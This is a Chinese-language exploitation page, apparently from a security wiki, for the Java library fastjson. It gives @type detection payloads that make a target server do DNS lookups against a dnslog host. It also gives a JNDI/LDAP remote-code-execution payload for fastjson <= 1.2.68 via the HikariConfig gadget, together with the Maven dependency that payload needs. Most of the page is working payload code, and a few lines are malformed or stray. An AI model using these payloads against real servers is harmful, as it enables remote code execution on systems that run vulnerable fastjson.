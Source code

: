 # Fastjson 漏洞利用 {docsify-ignore}

## Fastjson 检测

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:0
```
11
1

## HadoopHikari RCE（<= 1.2.68）

fastjson <= 1.2.68 RCE，需要开启 AutoType (report by threedr3am to ASRC)

### Payload

```java
  public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

    String payload = "{\"@type\":\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:43658/Calc\"}";
    String payload2 = "{\"@type\":\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",\"healthCheckRegistry\":\"ldap://localhost:43658/Calc\"}";
    JSON.parse(payload);
  }
```

### 影响版本

- fastjson <= 1.2.68

### 依赖

```java
<dependency>
    <groupId>org.apache.hadoop</groupId>
    <artifactId>hadoop-client-minicluster</artifactId>
    <version>3.2.1</version>
</dependency>
```

### 来源
